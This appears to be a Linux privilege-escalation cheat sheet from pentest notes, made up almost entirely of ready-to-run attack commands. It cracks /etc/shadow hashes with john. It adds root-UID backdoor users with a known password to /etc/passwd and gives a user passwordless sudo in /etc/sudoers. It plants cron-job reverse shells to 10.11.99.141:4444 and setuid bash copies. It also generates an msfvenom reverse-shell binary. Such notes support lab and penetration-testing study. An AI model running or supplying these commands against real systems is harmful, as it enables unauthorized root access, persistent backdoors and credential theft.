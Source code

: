 ```bash
cat /etc/shadow
unshadow /etc/passwd /etc/shadow > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
### Writable /etc/shadow OR /etc/passwd ✡️
```bash
openssl passwd <password>
mkpasswd -m sha-512 <new-password>
openssl passwd -1 -salt <username> <password>

change root password from /etc/shadow
Format change to /etc/shadow = root:<password>:19966:0:99999:7:::

Add to end the /etc/passwd
Format add to /etc/passwd = <username>:<passwordhash>:0:0:root:/root:/bin/bash

echo 'mobin:$1$8VO3cUZu$als/bleGjZ3SVjE5EGzvh/:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'mobin:$6$/LuWBv7L4QbfG1kf$pb0sFxOLHKiMNiAr2vMdpRc2e8mljxoUlm33fY6KEXLzcH7K51zegdnOYygurWuP/2.KW3eQvcBHXBn9/Jqnj0:0:0:root:/root:/bin/bash' >> /etc/passwd
password=Mobin@

su <username> ( Switch to new root user )
```
[editing-etc-passwd-file-for-privilege-escalation](http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/)
### Writable /etc/sudoers ✡️
```bash
echo 'ali ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
useradd ali && (echo -e 'Mobin@\nMobin@' | passwd ali) && (echo "ali ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)
```
### /etc/crontab ✡️
```bash
echo '* * * * * root overwrite.sh' >> /etc/crontab # If "crontab" was writable 
```
#### Cron Jobs - File Permissions 🔆
```bash
cat /etc/crontab
locate overwrite.sh
-------------------------------------------------
echo '#!/bin/bash' > /usr/local/bin/overwrite.sh
echo 'bash -i >& /dev/tcp/10.11.99.141/4444 0>&1' >> /usr/local/bin/overwrite.sh
-----------------------OR------------------------
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
-------------------------------------------------
nc -nvlp 4444 # our kali 
```
#### Cron Jobs - PATH Environment Variable 🔆
```bash
# Check "PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin" code in crontab file.
# If there is a writable directory in "PATH=", inside that directory we create a file with the same name as "overwrite.sh" file and write reverseshell inside it.

echo '#!/bin/bash' > /home/user/overwrite.sh
echo 'bash -i >& /dev/tcp/10.11.99.141/4444 0>&1' >> /home/user/overwrite.sh
```
#### Cron Jobs - Wildcards(1) 🔆
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf # our kali 
# We transfer "shell.elf" file to the target system 
```
